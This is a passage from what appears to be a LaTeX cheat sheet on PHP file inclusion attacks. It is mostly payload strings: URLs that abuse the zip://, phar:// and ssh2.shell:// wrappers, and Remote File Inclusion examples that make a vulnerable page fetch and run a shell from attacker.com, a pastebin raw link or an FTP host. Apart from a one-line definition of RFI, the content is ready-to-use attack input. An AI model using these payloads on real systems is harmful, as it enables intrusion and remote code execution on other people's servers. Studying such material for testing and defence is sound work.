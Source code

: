 \documentclass[12pt]{article}
\begin{document}
\subsection{Zip Wrapper for File Reading}

\begin{lstlisting}
# Read files inside zip archives
/index.php?page=zip://path/to/file.zip%23internalfile.txt
\end{lstlisting}

\subsection{Phar Wrapper for Deserialization}

\begin{lstlisting}
/index.php?page=phar://path/to/file.phar/internal.txt
\end{lstlisting}

\subsection{SSH2 Wrapper}

\begin{lstlisting}
/index.php?page=ssh2.shell://user:pass@host/command
\end{lstlisting}

\section{Remote File Inclusion (RFI)}

\subsection{Definition}

Remote File Inclusion (RFI) occurs when the application allows attackers to include remote files hosted on external servers.

The server downloads and executes attacker-controlled files.

\subsection{Basic RFI Example}

\begin{lstlisting}
/vuln.php?file=http://attacker.com/shell.txt
/vuln.php?file=https://pastebin.com/raw/shellcode
/vuln.php?file=ftp://attacker.com/shell.php
\end{lstlisting}
\end{document}
